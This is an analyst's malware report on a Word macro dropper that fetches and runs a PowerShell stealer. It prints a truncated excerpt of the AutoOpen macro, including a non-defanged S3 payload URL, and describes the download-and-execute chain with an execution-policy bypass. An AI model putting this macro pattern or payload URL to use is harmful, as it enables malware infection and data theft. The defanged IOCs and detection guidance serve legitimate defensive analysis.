


Case 03 macro dropper maldoc · MD
# Case 03 — Macro Dropper Maldoc (PowerShell Stealer)
 
**Verdict:** Malicious — High confidence
**Sample SHA-256:** `79e73d7d1c51b238c9d123afea7707cb1aa339cbb6d42fd7b4dd84813419c0cb`
**File type:** Microsoft Word (OpenXML), VBA macro in `ThisDocument.cls`
**Source:** MalwareBazaar
**Analyzed:** Isolated REMnux VM, static analysis only (macro never executed)
 
---
 
## Summary
 
A Word document containing a VBA macro that runs automatically when the file is opened,
downloads a PowerShell stealer script from an attacker controlled AWS S3 bucket, writes it
to disk, and executes it. A textbook macro dropper delivering a second stage payload.
 
## Evidence
 
**Tool:** `olevba` (oletools) — extracts and analyses VBA without executing it.
 
**1. Macro source**
 
```vba
Sub AutoOpen()
    Dim strUrl As String
    Dim strFilePath As String
    Dim objXMLHttp As Object
    Dim objStream As Object
    Dim objShell As Object
    Dim objFile As Object
 
    ' Define URL and file path
    strUrl = "https://free-games-ua.s3.eu-central-1.amazonaws.com/flag_stealer.ps1"
    ...
```
 
`Sub AutoOpen()` executes the moment the document is opened — no user interaction beyond
opening the file.
 


*Macro source — `Sub AutoOpen()`, object declarations, and the `strUrl` payload URL*

**2. `olevba` analysis table**
 
| Type | Keyword | Meaning |
|---|---|---|
| **AutoExec** | `AutoOpen` | Runs when the Word document is opened |
| Suspicious | `Shell` | May run an executable or system command |
| Suspicious | `WScript.Shell` | May run an executable or system command |
| Suspicious | `Run` | May run an executable or system command |
| Suspicious | `PowerShell` | May run PowerShell commands |
| Suspicious | `ExecutionPolicy` | May bypass PowerShell execution restrictions |
| Suspicious | `MSXML2.XMLHTTP` | May download files from the Internet |
| Suspicious | `ADODB.Stream` | May write to a file |
| Suspicious | `CreateObject` | May create an OLE object |
| Suspicious | `Create` | May execute a command via WMI |
| Suspicious | `Environ` | May read system environment variables |
| Suspicious | `Open` / `write` / `Kill` / `CreateTextFile` | File manipulation |
| Suspicious | `Hex Strings` | Hex-encoded strings — possible obfuscation |
| **IOC** | `https://free-games-ua.s3.eu-central-1.amazonaws.com/flag_stealer.ps1` | URL |
| **IOC** | `flag_stealer.ps1` | Executable file name |
| **IOC** | `downloaded_script.ps1` | Executable file name |
| **IOC** | `powershell.exe` | Executable file name |
 


*`olevba` analysis table — AutoExec trigger, Suspicious execution keywords, extracted IOCs*

**3. Reconstructed attack chain**
 
1. Victim opens the document → `AutoOpen` fires automatically
2. `MSXML2.XMLHTTP` requests `flag_stealer.ps1` from the attacker's AWS S3 bucket
3. `ADODB.Stream` writes the response to disk as `downloaded_script.ps1`
4. `Shell` / `WScript.Shell` executes it via `powershell.exe`, with `ExecutionPolicy`
   manipulation to bypass script-execution restrictions
**4. Notable TTP — abuse of legitimate cloud storage**
 
The payload is hosted on **AWS S3** (`s3.eu-central-1.amazonaws.com`). Attackers favour
legitimate cloud providers because the domain appears trustworthy, is rarely blocklisted,
and TLS traffic to it blends with normal business activity.
 
## Impact
 
Opening the document silently downloads and executes a PowerShell stealer on the host.
Named `flag_stealer.ps1`, indicating credential/data theft. Delivered as an email
attachment; requires only that the user open the file and enable content.
 
## IOCs (defanged)
 
| Type | Value |
|---|---|
| SHA-256 | `79e73d7d1c51b238c9d123afea7707cb1aa339cbb6d42fd7b4dd84813419c0cb` |
| URL | `hxxps://free-games-ua[.]s3[.]eu-central-1[.]amazonaws[.]com/flag_stealer[.]ps1` |
| Domain | `free-games-ua[.]s3[.]eu-central-1[.]amazonaws[.]com` |
| Dropped file | `flag_stealer.ps1` (remote payload name) |
| Dropped file | `downloaded_script.ps1` (local filename on victim) |
| Process | `powershell.exe` (execution vector) |
 
## Actions
 
- **Block** the S3 URL and bucket path at proxy and DNS.
- **Block** the document hash at the mail gateway and EDR.
- **Hunt** SIEM for outbound connections to the S3 bucket path — identifies anyone who
  opened the document.
- **Hunt** endpoint telemetry for `WINWORD.EXE` spawning `powershell.exe` — a
  high-fidelity detection for this entire attack class, independent of this sample.
- **Hunt** for the local artifact `downloaded_script.ps1`.
- **User awareness:** macro-enabled attachments and "enable content" prompts.
## Analyst note
 
The `olevba` output is read as a story, not a checklist: an **AutoExec** trigger plus
**execution** keywords plus an **IOC URL** together mean "opening this file silently
downloads and runs remote code." The
combination is conclusive of malicious activity.
 
Worth noting for detection strategy: blocking the URL stops *this* campaign, but the
behavioural detection (Office spawning PowerShell) stops the *technique* — which is the
more durable control, since attackers rotate infrastructure freely but rarely change the
delivery mechanism.
 
## Screenshots
 
| File | Shows |
|---|---|
| `79e-olevba-1.png` | Macro source — `Sub AutoOpen()`, object declarations, `strUrl` payload URL |
| `79e-olevba-2.png` | `olevba` analysis table — AutoExec, Suspicious keywords, extracted IOCs |
 

